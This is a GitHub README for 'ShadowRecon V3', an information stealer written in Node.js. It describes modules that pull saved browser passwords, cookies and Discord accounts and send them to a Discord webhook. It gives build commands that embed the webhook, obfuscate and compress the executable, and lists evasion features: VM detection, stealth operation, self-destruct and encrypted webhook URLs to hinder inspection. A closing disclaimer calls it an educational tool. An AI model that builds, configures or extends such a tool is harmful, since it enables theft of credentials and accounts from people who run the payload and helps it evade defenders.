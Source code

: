 # 🔥 ShadowRecon V3 - Modular Edition

A completely restructured, clean, modular, and efficient data collection tool with professional architecture.

## ⚡ Quick Start

```bash
# Install dependencies
npm install

# Run in development mode
npm start

# Build executable
./build.sh https://your-webhook-url.com MyApp

# Build with obfuscation
./build.sh https://your-webhook-url.com MyApp --obfuscate --compress
```

## 🏗️ What's New in V3

### ✨ Complete Architecture Overhaul
- **Modular Design**: Independent, reusable modules
- **Clean Code**: Professional structure and documentation
- **Error Handling**: Comprehensive error management
- **Logging**: Structured logging system
- **Configuration**: Centralized config management

### 📁 New Structure
```
src/
├── config/           # Configuration management
├── core/            # Core utilities and systems
├── modules/         # Feature modules (browsers, crypto, etc.)
├── services/        # External services (discord, upload)
└── main.js         # Application entry point
```

### 🚀 Key Features
- **Cross-platform**: Works on Windows, Linux, macOS
- **Modular**: Enable/disable features independently
- **Efficient**: Optimized performance and resource usage
- **Professional**: Clean code with proper error handling
- **Documented**: Comprehensive documentation

## 📊 Modules

| Module | Status | Description |
|--------|---------|-------------|
| 🌐 Browsers | ✅ Active | Chrome, Firefox, Edge, Opera, Brave |
| 💬 Discord | ✅ Active | Account extraction & webhooks |
| 💰 Crypto | 🔄 Planned | Cryptocurrency wallets |
| 📁 Files | 🔄 Planned | File system scanning |
| 🎮 Games | 🔄 Planned | Gaming platforms |
| 💉 Injection | 🔄 Planned | Browser injection |

## ⚙️ Configuration

### Environment Variables
```bash
WEBHOOK_URL=https://discord.com/api/webhooks/...
NODE_ENV=production
LOG_LEVEL=INFO
ENABLE_BROWSERS=true
ENABLE_DISCORD=true
```

### Configuration File
```json
{
  "webhook": {
    "url": "YOUR_WEBHOOK_URL"
  },
  "modules": {
    "enabled": {
      "browsers": true,
      "discord": true,
      "crypto": false,
      "files": false
    }
  }
}
```

## 🔨 Building

The new modular build system supports:
- Code obfuscation
- Multi-platform targets
- Compression options
- Configuration injection

```bash
# Basic build
node build/builder.js <webhook> <name>

# Advanced build
node build/builder.js <webhook> <name> --obfuscate --compress --target node16-win-x64
```

## 📚 Documentation

- [Full Documentation](docs/README.md)
- [Architecture Guide](docs/README.md#architecture-overview)
- [Module Development](docs/README.md#development)

## 🛡️ Security

- VM detection (configurable)
- Stealth operation
- **Encrypted webhook URLs** - Webhooks are automatically encrypted to prevent casual reading
- Self-destruct options
- Obfuscated builds

### Webhook Encryption

ShadowRecon automatically encrypts webhook URLs to prevent them from being easily readable by malicious users:

```bash
# Utility for managing encrypted webhooks
node webhook-util.js encrypt <webhook_url>     # Encrypt a webhook URL
node webhook-util.js decrypt <encrypted_data>  # Decrypt an encrypted webhook  
node webhook-util.js show-config               # Show decrypted webhook from config
node webhook-util.js encrypt-config            # Encrypt webhook in config.json
```

The encryption:
- Uses AES-256-GCM encryption with system-derived keys
- Is automatically applied during build process
- Maintains backward compatibility with plain-text webhooks
- Protects against casual inspection of configuration files

## 📊 Statistics

Real-time tracking of:
- Browser data (passwords, cookies, etc.)
- System information
- Module execution status
- File operations

## 🤝 Contributing

This project follows professional development standards:
- Modular architecture
- Comprehensive error handling
- Structured logging
- Clean code principles

## ⚠️ Disclaimer

This tool is for educational and authorized testing purposes only. Users are responsible for compliance with applicable laws and regulations.

## 📜 License

MIT License - See LICENSE file for details.

---

*Built with ❤️ for the security research community*